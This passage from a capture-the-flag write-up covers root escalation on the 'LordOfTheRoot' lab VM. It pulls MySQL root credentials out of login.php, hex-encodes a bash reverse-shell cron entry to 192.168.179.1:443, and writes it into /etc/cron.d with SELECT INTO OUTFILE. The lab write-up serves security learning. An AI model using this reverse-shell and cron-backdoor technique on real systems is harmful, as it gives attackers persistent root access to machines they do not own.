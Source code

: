 ```bash

}
```

This is the non-vulnerable other.c script.

```bash
root@LordOfTheRoot:/root# cat other.c 
#include <string.h>
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[]){

        char buff[150];
        if(argc <2){
                printf("Syntax: %s <input string>\n", argv[0]);
                exit (0);

        }
  //This Program does nothing
  return 0;

} 
```


### MySQL running with root permissions

Another path to get root is through MySQL, as it runs as root.

```bash
smeagol@LordOfTheRoot:/$ ps aux | grep mysqld root      1360  0.6  0.1
318404   848 ?        Ssl  13:43   1:12 /usr/sbin/mysqld
```

The credentials to connect to MySQL are in the login.php file.

```bash
smeagol@LordOfTheRoot:/var/www/978345210$ grep '$db ' login.php 
                $db = new mysqli('localhost', 'root', 'darkshadow', 'Webapp');
```
                      
I encoded to hexadecimal a reverse shell that runs every minute.

```bash
LordOfTheRoot:~$ echo '* * * * * root /bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.179.1/443 0>&1"' | xxd -ps | tr -d '\n'; echo
2a202a202a202a202a20726f6f74202f62696e2f62617368202d6320222f62696e2f62617368202d69203e26202f6465762f7463702f3139322e3136382e3137392e312f34343320303e2631220a
```

I wrote the reverse shell in the /etc/cron.d directory using mysql.

```bash
mysql> select 0x2a202a202a202a202a20726f6f74202f62696e2f62617368202d6320222f62696e2f62617368202d69203e26202f6465762f7463702f3139322e3136382e3137392e312f34343320303e2631220a into outfile '/etc/cron.d/back.door';
Query OK, 1 row affected (0.01 sec)
```
